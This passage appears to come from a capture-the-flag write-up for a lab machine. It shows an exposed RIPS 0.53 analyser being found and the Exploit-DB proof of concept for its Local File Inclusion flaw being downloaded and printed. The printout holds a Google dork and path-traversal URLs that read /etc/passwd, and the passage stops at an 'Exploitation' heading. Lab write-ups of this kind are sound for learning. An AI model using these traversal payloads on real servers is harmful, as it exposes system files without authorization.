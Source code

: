 When I request the **nomercy** resource it redirects me to the RIPS page that's a static source code analyser for vulnerabilities.

![](/assets/images/mercy/screenshot-6.png)

Searching for vulnerabilities for this RIPS version, I found that this is vulnerable to Local File Inclusion, so I downloaded the exploit database proof of concept, as shown below:

```console
root@kali:~$ wget https://www.exploit-db.com/download/18660
root@kali:~$ cat 18660
# RIPS <= 0.53 Multiple Local File Inclusion Vulnerabilities
# Google Dork: allintitle: "RIPS - A static source code analyser for vulnerabilities in PHP scripts"
# Althout this script is not intended to be accesible from internet, there
are some websites that host it.
# Download: http://sourceforge.net/projects/rips-scanner/
# Date: 23/03/12
# Contact: mattdch0@gmail.com
# Follow: @mattdch
# www.localh0t.com.ar


File: /windows/code.php
=======================

102: file $lines = file($file);
    96: $file = $_GET['file'];

PoC:
http://localhost/rips/windows/code.php?file=../../../../../../etc/passwd

File: /windows/function.php
===========================

    64: file $lines = file($file);
        58: $file = $_GET['file'];

PoC:
http://localhost/rips/windows/function.php?file=../../../../../../etc/passwd(will
read the first line of the file)
```


## Exploitation
